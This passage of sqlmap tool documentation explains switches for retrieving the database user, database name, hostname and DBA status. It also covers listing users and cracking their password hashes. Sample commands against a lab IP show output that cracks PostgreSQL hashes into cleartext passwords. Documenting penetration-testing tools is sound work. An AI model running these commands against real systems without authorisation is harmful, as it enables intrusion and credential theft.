 #### Session user

Switch: `--current-user`\
With this switch it is possible to retrieve the database management system's user which is effectively performing the query against the back-end DBMS from the web application.

#### Current database

Switch: `--current-db`\
With this switch it is possible to retrieve the database management system's database name that the web application is connected to.

#### Server hostname

Switch: `--hostname`\
With this switch it is possible to retrieve the database management system's hostname.\
Example against a MySQL target:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\`\
`hostname`

`[...]`\
`[xx:xx:04] [INFO] fetching server hostname`\
`[xx:xx:04] [INFO] retrieved: debian-5.0-i386`\
`hostname: 'debian-5.0-i386'`

#### Detect whether or not the session user is a database administrator

Switch: `--is-dba`\
It is possible to detect if the current database management system session user is a database administrator, also known as DBA. sqlmap will return `True` if it is, vice versa `False`.

#### List database management system users

Switch: `--users`\
When the session user has read access to the system table containing information about the DBMS users, it is possible to enumerate the list of users.

#### List and crack database management system users password hashes

Switch: `--passwords`\
When the session user has read access to the system table containing information about the DBMS users' passwords, it is possible to enumerate the password hashes for each database management system user. sqlmap will first enumerate the users, then the different password hashes for each of them.\
Example against a PostgreSQL target:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\`\
`passwords -v 1`

`[...]`\
`back-end DBMS: PostgreSQL`\
`[hh:mm:38] [INFO] fetching database users password hashes`\
`do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y`\
`[hh:mm:42] [INFO] using hash method: 'postgres_passwd'`\
`what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]`\
`[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'`\
`do you want to use common password suffixes? (slow!) [y/N] n`\
`[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)`\
`[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'`\
`[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'`\
`database management system users password hashes:`\
`[*] postgres [1]:`\
`password hash: md5d7d880f96044b72d0bba108ace96d1e4`\
`clear-text password: testpass`\
`[*] testuser [1]:`\
`password hash: md599e5ea7a6f7c3269995cba3927fd0093`\
`clear-text password: testpass`